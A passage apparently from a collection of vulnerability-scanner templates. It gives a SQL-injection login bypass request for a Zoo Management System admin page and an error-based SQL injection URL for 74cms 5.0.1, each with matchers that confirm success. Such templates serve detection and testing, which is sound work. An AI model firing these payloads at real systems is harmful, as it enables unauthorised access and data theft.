 - severity - critical
- tags - edb,packetstorm,zms,sqli,auth-bypass,cms

## Requests

### Step - 1

```
POST /admin/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271&password=any&login=

```

### Matchers

**Type - word**

- part - body
- words
  1. ZMS ADMIN
  2. Dashboard
  3. Zoo Management System
- condition - and

**Type - status**

- status
  1. 200

---

# 74cms Sql Injection

## Description

- A SQL injection vulnerability exists in 74cms 5.0.1 AjaxPersonalController.class.php.
- severity - critical
- tags - 74cms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=test") and extractvalue(1,concat(0x7e,md5({{num}}))) -- a

### Matchers

